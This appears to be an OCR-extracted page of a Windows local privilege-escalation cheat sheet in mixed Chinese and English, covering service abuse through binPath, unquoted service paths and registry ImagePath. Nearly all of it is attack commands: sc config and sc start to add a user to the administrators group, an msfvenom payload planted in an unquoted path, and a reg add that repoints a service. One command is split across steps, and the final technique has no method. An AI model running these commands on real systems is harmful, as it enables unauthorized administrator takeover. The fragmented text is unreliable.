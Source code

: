 ### **Abusing Services via binPath**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.  `sc config daclsvc binpath= "net localgroup administrators user /add"`
2.  `sc start daclsvc`

### **Abusing Services via Unquoted Path**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.  `msfvenom -p windows/exec CMD=’net localgroup administrators user /add’ -f exe-service -o common.exe`
2.  `common.exe 放在 'C:\Program Files\Unquoted Path Service'.`
3.  `sc start unquotedsvc`

### **Abusing Services via Registry**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.  `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t`
2.  `REG_EXPAND_SZ /d c:\temp\x.exe /f`
3.  `sc start regsvc`

### **Abusing Services via Executable File**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:
